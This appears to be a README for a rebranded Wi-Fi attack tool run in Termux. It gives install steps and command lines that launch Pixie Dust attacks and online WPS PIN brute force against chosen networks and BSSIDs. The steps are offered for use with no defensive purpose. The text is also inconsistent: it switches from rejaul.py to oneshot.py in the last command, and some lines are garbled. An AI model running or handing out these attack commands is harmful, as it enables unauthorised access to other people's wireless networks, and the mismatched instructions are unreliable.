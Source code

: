 <!--- mark down --->

---

pkg install -y root-repo

pkg install -y git tsu python wpa-supplicant pixiewps iw

git clone https://github.com/princeicon2712/rejaul2712.git

$ cd rejaul2712

$ chmod +x *

$ python rejaul.py -h

plz' go to HOME

``` Example : sudo python rejaul2712/rejaul.py -i wlan0 -K ```


Note:

First turn off your Wifi.

Show avaliable networks and start Pixie Dust attack on a specified network.

sudo python rejaul.py -i wlan0 -K

Start Pixie Dust attack on a specified BSSID: 

sudo python rejaul.py -i wlan0 -b 00:91:4C:C3:AC:28 -K

Launch online WPS bruteforce with the specified first half of the PIN:

sudo python rejaul.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234

wps router push button:- sudo python oneshot.py -i wlan0 --pbc

Troubleshooting

"Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.

